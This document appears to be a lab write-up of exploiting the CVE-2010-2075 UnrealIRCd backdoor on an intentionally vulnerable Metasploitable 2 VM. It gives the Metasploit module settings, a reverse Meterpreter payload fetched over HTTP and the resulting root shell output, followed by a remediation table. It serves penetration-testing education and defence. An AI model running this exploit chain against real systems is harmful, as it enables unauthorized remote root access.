

# UnrealIRCD 3.2.8.1 Backdoor Exploitation Lab

This lab documents exploitation of CVE-2010-2075 — an UnrealIRCD backdoor that executes arbitrary commands — against Metasploitable 2. The activity was performed only against an intentionally vulnerable virtual machine for educational purposes.

## Objective

Identify UnrealIRCd version on Metasploitable 2 via port scanning, exploit CVE-2010-2075 with Metasploit's `exploit/unix/irc/unreal_ircd_3281_backdoor` module, and validate root-level post-exploitation access.

## Lab Environment

### Attacker Machine

- Linux penetration testing workstation
- Tools used: Nmap, Metasploit Framework (`msfconsole`)
- Attacker IP (virtual bridge): `192.168.122.1`
- Listener port: `4444/tcp`

### Target Machine

- Target: **Metasploitable 2** (Ubuntu 8.04)
- Target IP: `192.168.122.229`
- Vulnerable service: UnrealIRCd 3.2.8.1
- IRC port: `6667/tcp`
- Post-exploitation user: `root`

### Network

- Virtual lab via VMs (host-only/NAT hybrid)
- Attacker and target on the same virtual bridge (`virbr0 — 192.168.122.0/24`)

## Screenshots



*Metasploit `exploit/unix/irc/unreal_ircd_3281_backdoor` module execution showing check confirmation, meterpreter session, and post-exploitation `whoami` as `root`.*

## Tools Inventory

| Category | Tool | Purpose |
|---|---|---|
| Reconnaissance | Nmap | Port scanning & service version detection |
| Reconnaissance | `ip addr` | Local interface enumeration for listener selection |
| Exploitation | Metasploit `exploit/unix/irc/unreal_ircd_3281_backdoor` | CVE-2010-2075 exploitation |
| Payload | `cmd/linux/http/x86/meterpreter/reverse_tcp` | Reverse Meterpreter via staged HTTP fetch |

## Enumeration

### Service Discovery

The `nmap -sV` scan identified UnrealIRCd on port `6667/tcp`:

```text
PORT     STATE SERVICE VERSION
6667/tcp open  irc     Unreal ircd
Service Info: Host: irc.Metasploitable.LAN
```

A targeted version scan confirmed:

```text
nmap -sV -p6667 192.168.122.229
PORT     STATE SERVICE VERSION
6667/tcp open  irc     UnrealIRCd
```

### Local Interface Check

Before exploitation, the attacker's IP configuration was checked to determine the correct `LHOST`:

```text
ip addr
3: virbr0: inet 192.168.122.1/24
12: wlo1: inet 192.168.29.176/24
```

The `virbr0` interface (`192.168.122.1`) is on the same network as the target (`192.168.122.229`), so it was selected as `LHOST`.

## Vulnerability Identification

### CVE-2010-2075 — UnrealIRCD 3.2.8.1 Backdoor

UnrealIRCd versions 3.2.8.1 and earlier contain a backdoor introduced via a compromised source archive. A malicious user can send `AB;` followed by arbitrary commands in an IRC message to trigger remote code execution.

The version that maps to this CVE:

- **Identified version:** UnrealIRCd 3.2.8.1 (from Nmap service scan)
- **Match:** CVE-2010-2075 — backdoor in the `src/s_auth.c` handling of `AB;` commands

### Module Search

```text
msf6 > search unreal
```

Result:

```text
exploit/unix/irc/unreal_ircd_3281_backdoor
```

The module description confirmed it targets the UnrealIRCD 3.2.8.1 backdoor.

## Exploitation

### Module Configuration

```text
msf6 > use exploit/unix/irc/unreal_ircd_3281_backdoor
```

| Option | Setting | Required | Description |
|---|---|---|---|
| `RHOSTS` | 192.168.122.229 | yes | Target host |
| `RPORT` | 6667 | yes | IRC port |
| `LHOST` | 192.168.122.1 | yes | Attacker listener address |
| `LPORT` | 4444 | yes | Attacker listener port |

### Payload

The default payload `cmd/linux/http/x86/meterpreter/reverse_tcp` was used. This payload fetches a Meterpreter binary via HTTP from the attacker's `FETCH_SRVPORT` (8080) and executes it on the target.

### Check

```text
msf exploit(unix/irc/unreal_ircd_3281_backdoor) > check
[*] 192.168.122.229:6667 - Connected to 192.168.122.229:6667
[*] 192.168.122.229:6667 - Trying to register a new IRC user: agnus
[+] 192.168.122.229:6667 - The target appears to be vulnerable.
```

The module's built-in check confirmed the target was exploitable before running.

### Run

```text
set RHOSTS 192.168.122.229
set LHOST 192.168.122.1
run
```

Result:

```text
[*] Started reverse TCP handler on 192.168.122.1:4444
[*] 192.168.122.229:6667 - Running automatic check
[*] 192.168.122.229:6667 - Connected to 192.168.122.229:6667
[*] 192.168.122.229:6667 - Trying to register a new IRC user: nathanial
[+] 192.168.122.229:6667 - The target appears to be vulnerable.
[*] 192.168.122.229:6667 - Sending IRC backdoor command
[*] Sending stage (1062760 bytes) to 192.168.122.229
[*] Meterpreter session 3 opened (192.168.122.1:4444 -> 192.168.122.229:48680)
```

The exploit succeeded on the first attempt.

## Post Exploitation

### User Context

```text
meterpreter > shell
Process 7537 created.
Channel 1 created.
whoami
root
```

The shell confirmed **root** access.

### UnrealIRCd Directory

Listing the current directory revealed the UnrealIRCd installation directory:

```
Donation
LICENSE
QIOpXwxck
aliases
badwords.channel.conf
badwords.message.conf
badwords.quit.conf
curl-ca-bundle.crt
dccallow.conf
doc
help.conf
ircd.log
ircd.pid
ircd.tune
modules
networks
spamfilter.conf
tmp
unreal
unrealircd.conf
```

This confirmed the shell landed in the UnrealIRCd working directory with full read/write access.

## Lessons Learned

- Nmap service detection (`-sV`) accurately identified UnrealIRCd on port 6667, making module selection straightforward.
- The `check` command is useful — it registered a test IRC user and verified the backdoor was present before sending the payload.
- Network interface selection matters: `192.168.122.1` (virbr0) was on the same VM bridge as the target, while `192.168.29.176` (wlo1) was on a NAT'd host network. Using the bridge interface ensured the reverse connection worked.
- The default payload was `cmd/linux/http/x86/meterpreter/reverse_tcp` (different from the simpler `cmd/unix/reverse_netcat` used in the Samba exploit). This staged payload fetches a binary from the attacker's HTTP server, which required `FETCH_SRVPORT` (8080) to be accessible from the target.
- This was the third root-level exploit on this target (after vsftpd and Samba), reinforcing that a single host with multiple unpatched services provides many independent paths to full compromise.
- The UnrealIRCd backdoor functions by injecting commands into the `AB;` IRC command handler — a supply-chain attack similar in nature to the vsftpd 2.3.4 backdoor (CVE-2011-2523).

## Remediation

| Control | Action |
|---|---|
| Version upgrade | Upgrade UnrealIRCd to 3.2.8.1+ or migrate to a maintained IRCd (e.g., InspIRCd, Charybdis) |
| Integrity verification | Verify PGP signatures or SHA checksums of downloaded IRCd binaries against publisher-published values |
| File integrity monitoring | Deploy FIM (e.g., AIDE, Tripwire) to detect unauthorized binary modifications in `/usr/bin/` and `/etc/` |
| Egress filtering | Restrict outbound traffic from IRC servers to prevent reverse shell callbacks |
| Service exposure | Do not expose IRC servers to the internet unless necessary; use a reverse proxy or bouncer for external users |
| Network segmentation | Place IRC servers in a DMZ with restricted outbound access |

## References

- [NVD: CVE-2010-2075](https://nvd.nist.gov/vuln/detail/CVE-2010-2075)
- [Rapid7 Module: UnrealIRCD 3.2.8.1 Backdoor](https://www.rapid7.com/db/modules/exploit/unix/irc/unreal_ircd_3281_backdoor/)
- [UnrealIRCd Security Advisory](https://www.unrealircd.org/advisory/CVE-2010-2075)
